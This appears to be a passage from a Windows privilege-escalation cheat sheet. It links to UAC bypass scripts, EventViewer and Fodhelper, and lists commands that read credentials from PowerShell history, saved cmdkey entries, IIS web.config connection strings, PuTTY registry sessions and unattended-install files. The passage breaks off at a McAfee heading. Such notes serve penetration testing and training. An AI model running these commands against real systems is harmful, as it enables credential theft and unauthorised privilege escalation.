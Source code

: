 https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1

### FodhelperBypass

https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1

### Capturing configuration file credentials

- > Powershell History

```
type %userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt

```

- > EXploiting Saved Windows Credentials

```
cmdkey /list
runas /savecred /user:admin cmd.exe

```

- > IIS Configuration

```
type C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config | findstr connectionString
type C:\\inetpub\\wwwroot\\web.config | findstr connectionString

```

- > Retrieve Credentials from Software: PuTTY

```
reg query HKEY_CURRENT_USER\\Software\\SimonTatham\\PuTTY\\Sessions\\ /f "Proxy" /s

```

- > Unattended Windows Installations

```
C:\\Unattend.xml
C:\\Windows\\Panther\\Unattend.xml
C:\\Windows\\Panther\\Unattend\\Unattend.xml
C:\\Windows\\system32\\sysprep.inf
C:\\Windows\\system32\\sysprep\\sysprep.xml

```

- > Identify

```
dir /s *.db

```

- > McAfee Enterprise Endpoint Security - Credentials used during installation
